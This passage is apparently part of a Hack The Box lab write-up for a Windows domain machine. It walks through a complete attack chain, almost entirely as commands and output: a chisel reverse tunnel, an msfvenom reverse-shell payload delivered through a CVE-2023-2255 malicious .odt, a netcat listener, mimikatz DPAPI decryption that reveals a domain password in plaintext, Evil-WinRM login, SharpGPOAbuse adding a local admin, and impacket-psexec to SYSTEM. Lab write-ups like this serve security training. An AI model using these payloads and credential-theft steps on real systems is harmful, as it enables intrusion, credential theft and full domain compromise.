    <div class="py-3 bg-light text-center">
        <p class="m-0">Copyright By <a href="#">holographictech.htb</a> 2030</p>
    </div>
    <!-- Optional JavaScript -->
    <!-- jQuery first, then Popper.js, then Bootstrap JS -->
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
  </body>
</html>
```

Let's use `chisel` and forward the port and connect to it.

`Attacker Machine`
```
chisel server -p 4444 --reverse
```

`Victim Machine`
```
chisel client 10.10.16.59:4444 R:8083:127.0.0.1:8083
```

Here's the http service.



And here's the `resume.php`.




Privilege Escalation to `ppots` via [CVE-2023-2255](https://nvd.nist.gov/vuln/detail/CVE-2023-2255)

### **CVE-2023-2255**

After doing a research I realized this exploit was exactly what I was looking for.

I create a shell.exe file to get a reverse shell via msfvenom:

```
  msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe -o shell.exe

  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload

  [-] No arch selected, selecting arch: x86 from the payload

  No encoder specified, outputting raw payload

  Payload size: 324 bytes

  Final size of exe file: 73802 bytes

  Saved as: shell.exe
  ```


I create the exploit.odt file and transfer it to the following directory:

```
  python3 CVE-2023-2255.py --cmd 'C:\programdata\shell.exe' --output 'exploit.odt'

  File exploit.odt has been created !
  ```

```
  C:\xampp\htdocs\internal\applications\exploit.odt
  ```


After waiting few seconds I get reverse shell as PPotts user.

```
  rlwrap nc -lvnp 9001

  listening on [any] 9001 ...

  connect to [10.10.15.29] from (UNKNOWN) [10.10.11.3] 53622

  Microsoft Windows [Version 10.0.20348.2322]

  (c) Microsoft Corporation. All rights reserved.


  C:\Program Files\LibreOffice 5\program>whoami

  whoami

  office\ppotts
  ```

### **Shell as HHogan** using *mimikatz*

Enumerate the credentials folders:

```
  PS C:\Users\PPotts\AppData\Roaming\Microsoft\credentials> Get-ChildItem -Hidden C:\Users\ppotts\AppData\Roaming\Microsoft\Credentials\


  Directory: C:\Users\ppotts\AppData\Roaming\Microsoft\Credentials


  Mode                 LastWriteTime         Length Name                                                                 

  ----                 -------------         ------ ----                                                                 

  -a-hs-          5/9/2023   2:08 PM            358 18A1927A997A794B65E9849883AC3F3E                                     

  -a-hs-          5/9/2023   4:03 PM            398 84F1CAEEBF466550F4967858F9353FB4                                     

  -a-hs-         1/18/2024  11:53 AM            374 E76CCA3670CD9BB98DF7
  ```

I use dpapi feature via mimikatz:

DPAPI (Data Protection API) is an API used for data protection and encryption operations in the Microsoft Windows operating system.

```
  dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXX
  ```
```
  mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4

  **BLOB**

    dwVersion          : 00000001 - 1

    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}

    dwMasterKeyVersion : 00000001 - 1

    guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}

    dwFlags            : 20000000 - 536870912 (system ; )

    dwDescriptionLen   : 0000003a - 58

    szDescription      : Enterprise Credential Data


    algCrypt           : 00006603 - 26115 (CALG_3DES)

    dwAlgCryptLen      : 000000c0 - 192

    dwSaltLen          : 00000010 - 16

    pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d

    dwHmacKeyLen       : 00000000 - 0

    pbHmackKey         : 

    algHash            : 00008004 - 32772 (CALG_SHA1)

    dwAlgHashLen       : 000000a0 - 160

    dwHmac2KeyLen      : 00000010 - 16

    pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a

    dwDataLen          : 000000c0 - 192

    pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97

    dwSignLen          : 00000014 - 20

    pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976
  ```

I know I might need the guidMasterKey so I'm keeping it temporarily.


Now I'll enumarate this directory and got a SID number:

```
  PS C:\Users\PPotts\appdata\roaming\microsoft\protect> dir


  Directory: C:\Users\PPotts\appdata\roaming\microsoft\protect


  Mode                 LastWriteTime         Length Name                                                                 

  ----                 -------------         ------ ----                                                                 

  d---s-         1/17/2024   3:43 PM                S-1-5-21-1199398058-4196589450-691661856-1107
  ```


Change SID and guidMasterKey to your own:

```
  dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\\ /rpc
  ```

```
  mimikatz # dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb /rpc

  **MASTERKEYS**

    dwVersion          : 00000002 - 2

    szGuid             : {191d3f9d-7959-4b4d-a520-a444853c47eb}

    dwFlags            : 00000000 - 0

    dwMasterKeyLen     : 00000088 - 136

    dwBackupKeyLen     : 00000068 - 104

    dwCredHistLen      : 00000000 - 0

    dwDomainKeyLen     : 00000174 - 372

  [masterkey]

    **MASTERKEY**

      dwVersion        : 00000002 - 2

      salt             : c521daa0857ee4fa6e4246266081e94c

      rounds           : 00004650 - 18000

      algHash          : 00008009 - 32777 (CALG_HMAC)

      algCrypt         : 00006603 - 26115 (CALG_3DES)

      pbKey            : 1107e1ab3e107528a73a2dafc0a2db28de1ea0a07e92cff03a935635013435d75e41797f612903d6eea41a8fc4f7ebe8d2fbecb0c74cdebb1e7df3c692682a066faa3edf107792d116584625cc97f0094384a5be811e9d5ce84e5f032704330609171c973008d84f


  [backupkey]

    **MASTERKEY**

      dwVersion        : 00000002 - 2

      salt             : a2741b13d7261697be4241ebbe05098a

      rounds           : 00004650 - 18000

      algHash          : 00008009 - 32777 (CALG_HMAC)

      algCrypt         : 00006603 - 26115 (CALG_3DES)

      pbKey            : 21bf24763fbb1400010c08fccc5423fe7da8190c61d3006f2d5efd5ea586f463116805692bae637b2ab548828b3afb9313edc715edd11dc21143f4ce91f4f67afe987005320d3209


  [domainkey]

    **DOMAINKEY**

      dwVersion        : 00000002 - 2

      dwSecretLen      : 00000100 - 256

      dwAccesscheckLen : 00000058 - 88

      guidMasterKey    : {e523832a-e126-4d6e-ac04-ed10da72b32f}

      pbSecret         : 159613bdc2d90dd4834a37e29873ce04c74722a706d0ba4770865039b3520ff46cf9c9281542665df2e72db48f67e16e2014e07b88f8b2f7d376a8b9d47041768d650c20661aee31dc340aead98b7600662d2dc320b4f89cf7384c2a47809c024adf0694048c38d6e1e3e10e8bd7baa7a6f1214cd3a029f8372225b2df9754c19e2ae4bc5ff4b85755b4c2dfc89add9f73c54ac45a221e5a72d3efe491aa6da8fb0104a983be20af3280ae68783e8648df413d082fa7d25506e9e6de1aadbf9cf93ec8dfc5fab4bfe1dd1492dbb679b1fa25c3f15fb8500c6021f518c74e42cd4b5d5d6e1057f912db5479ebda56892f346b4e9bf6404906c7cd65a54eea2842

      pbAccesscheck    : 1430b9a3c4ab2e9d5f61dd6c62aab8e1742338623f08461fe991cccd5b3e4621d4c8e322650460181967c409c20efcf02e8936c007f7a506566d66ba57448aa8c3524f0b9cf881afcbb80c9d8c341026f3d45382f63f8665


  Auto SID from path seems to be: S-1-5-21-1199398058-4196589450-691661856-1107


  [backupkey] without DPAPI_SYSTEM: 

    key : 4d1b2c18baba7442e79d33cc771bf54027ae2500e08da3ecfccf91303bd471b6

    sha1: eeb787c4259e3c8b8408201ee5e54fc29fad22b2


  [domainkey] with RPC

  [DC] 'office.htb' will be the domain

  [DC] 'DC.office.htb' will be the DC server

    key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166

    sha1: 85285eb368befb1670633b05ce58ca4d75c73c77
  ```


After using the this command I see the password of HHogan

```
  dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXXXX /guidMasterkey::
  ```

```
  mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4 /191d3f9d-7959-4b4d-a520-a444853c47eb::87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166

  **BLOB**

    dwVersion          : 00000001 - 1

    guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}

    dwMasterKeyVersion : 00000001 - 1

    guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}

    dwFlags            : 20000000 - 536870912 (system ; )

    dwDescriptionLen   : 0000003a - 58

    szDescription      : Enterprise Credential Data


    algCrypt           : 00006603 - 26115 (CALG_3DES)

    dwAlgCryptLen      : 000000c0 - 192

    dwSaltLen          : 00000010 - 16

    pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d

    dwHmacKeyLen       : 00000000 - 0

    pbHmackKey         : 

    algHash            : 00008004 - 32772 (CALG_SHA1)

    dwAlgHashLen       : 000000a0 - 160

    dwHmac2KeyLen      : 00000010 - 16

    pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a

    dwDataLen          : 000000c0 - 192

    pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97

    dwSignLen          : 00000014 - 20

    pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976


  Decrypting Credential:

  * volatile cache: GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77;Key:available

  **CREDENTIAL**

    credFlags      : 00000030 - 48

    credSize       : 000000be - 190

    credUnk0       : 00000000 - 0


    Type           : 00000002 - 2 - domain_password

    Flags          : 00000000 - 0

    LastWritten    : 5/9/2023 11:03:21 PM

    unkFlagsOrSize : 00000018 - 24

    Persist        : 00000003 - 3 - enterprise

    AttributeCount : 00000000 - 0

    unk0           : 00000000 - 0

    unk1           : 00000000 - 0

    TargetName     : Domain:interactive=OFFICE\HHogan

    UnkData        : (null)

    Comment        : (null)

    TargetAlias    : (null)

    UserName       : OFFICE\HHogan

    CredentialBlob : H4ppyFtW183#

    Attributes     : 
  ```

```
  evil-winrm -u "hhogan" -p "H4ppyFtW183#" -i 10.10.11.3     

                                          

  Evil-WinRM shell v3.5

                                          

  Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

                                          

  Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

                                          

  Info: Establishing connection to remote endpoint

  *Evil-WinRM* PS C:\Users\HHogan\Documents>
  ```

### **Shell as system**

I see that HHogan is in the GPO Managers group and can write to the default domain group policy. This ability allows an attacker to perform a wide variety of attacks, they can execute commands via scheduled tasks, disable or modify system services, elevate privileges and more.

```
*Evil-WinRM* PS C:\Users\HHogan\Documents> whoami /groups


GROUP INFORMATION

-----------------


Group Name                                  Type             SID                                           Attributes

=========================================== ================ ============================================= ==================================================

Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group

BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group

BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group

BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group

BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group

OFFICE\GPO Managers                         Group            S-1-5-21-1199398058-4196589450-691661856-1117 Mandatory group, Enabled by default, Enabled group

NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group

Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All | Select-Object -ExpandProperty DisplayName

Windows Firewall GPO

Default Domain Policy

Default Active Directory Settings GPO

Default Domain Controllers Policy

Windows Update GPO

Windows Update Domain Policy

Software Installation GPO

Password Policy 
```

Now I add it to the computer as a local administrator via GPO.

```
*Evil-WinRM* PS C:\programdata> ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount HHogan --GPOName "Default Domain Policy"

[+] Domain = office.htb

[+] Domain Controller = DC.office.htb

[+] Distinguished Name = CN=Policies,CN=System,DC=office,DC=htb

[+] SID Value of HHogan = S-1-5-21-1199398058-4196589450-691661856-1108

[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}

[+] File exists: \\office.htb\SysVol\office.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf

[+] The GPO does not specify any group memberships.

[+] versionNumber attribute changed successfully

[+] The version number in GPT.ini was increased successfully.

[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.

[+] Done!
```

I update windows group policy settings:

```
*Evil-WinRM* PS C:\programdata> gpupdate /force

Updating policy...


Computer Policy update has completed successfully.


User Policy update has completed successfully.
```

I can easily see that HHogan are in the administrator group.

```
*Evil-WinRM* PS C:\programdata> net localgroup Administrators

Alias name     Administrators

Comment        Administrators have complete and unrestricted access to the computer/domain


Members


-------------------------------------------------------------------------------

Administrator

HHogan

The command completed successfully.
```

```
impacket-psexec.py HHogan:H4ppyFtW183#@10.10.11.3   

Impacket v0.12.0.dev1+20230907.33311.3f645107 - Copyright 2023 Fortra


[*] Requesting shares on 10.10.11.3.....

[*] Found writable share ADMIN$

[*] Uploading file kbuDcLOn.exe

[*] Opening SVCManager on 10.10.11.3.....

[*] Creating service NOKZ on 10.10.11.3.....

[*] Starting service NOKZ.....

[!] Press help for extra shell commands

Microsoft Windows [Version 10.0.20348.2322]

(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32> whoami

nt authority\system
```

## Reference
  [For root flag I followed namiq.net's walkthrough.](https://namiq.net/blog/htb-office-writeup-hackthebox)